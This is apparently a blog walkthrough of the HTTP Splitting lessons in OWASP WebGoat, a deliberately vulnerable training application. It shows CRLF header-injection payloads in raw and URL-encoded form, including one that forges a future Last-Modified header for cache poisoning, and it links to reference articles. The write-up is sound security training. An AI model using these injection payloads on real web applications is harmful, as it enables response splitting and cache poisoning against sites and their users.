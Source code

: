 ```yaml
---
title: "OWASP Broken Web Applications - WebGoat Walkthrough"
date: 2020-01-22
categories:
  - OWASP-BWA
tags:
  - Bugbounty
  - Walkthrough
---
```


# GENERAL
<details><summary> HTTP SPLITTING </summary>
<p>

### (part 1)
Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 10
<html>Test</html>
```

turns to
```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.


| Environment  | CRLF Used  | encoded |
| ------------ |----------- | ------- |
| Windows      | CRLF       | %0d%0a  |
| Unix         | LF         | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection
[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF
[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)


### (part 2)
Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests
*encode uri for below*
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 1 Jan 2030 00:00:00 GMT
Content-Length: 4
<html>Test</html>
```
</p>
</details>
